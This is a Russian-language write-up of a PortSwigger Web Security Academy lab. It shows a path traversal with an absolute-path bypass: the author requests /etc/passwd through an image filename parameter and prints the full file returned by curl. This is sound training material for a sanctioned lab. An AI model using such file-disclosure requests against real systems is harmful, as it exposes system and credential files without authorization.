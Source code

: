 ```yaml
---
title: "File path traversal, traversal sequences blocked with absolute path bypass"
date: 2025-07-04
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-absolute-path-bypass"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует обход по относительному пути, но рассматривает предоставленное имя файла как относящееся к рабочему каталогу по умолчанию.

Для решения лабораторной работы нужно извлечь содержимое файла `/etc/passwd`.

```
https://0a68000e03cb5f058043582300db0088.web-security-academy.net/
```

## Solution

Мы на главной странице. Предположу, что для загрузки изображений указывается путь до файла. Посмотрю это в исходном коде страницы:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_blocked_with_absolute_path_bypass/1.png){: height="200" .align-center}

Значит мы можем посмотреть картинку по следующему `URL`:

```
https://0a68000e03cb5f058043582300db0088.web-security-academy.net/image?filename=30.jpg
```

Попробую передать путь до нужного файла:

```
https://0a68000e03cb5f058043582300db0088.web-security-academy.net/image?filename=/etc/passwd
```

Я получил следующую ошибку отображения картинки:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_blocked_with_absolute_path_bypass/2.png){: height="200" .align-center}

Попробую посмотреть ответ через `curl`:

```bash
cu63:~/ $ curl https://0a68000e03cb5f058043582300db0088.web-security-academy.net/image\?filename\=/etc/passwd          
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
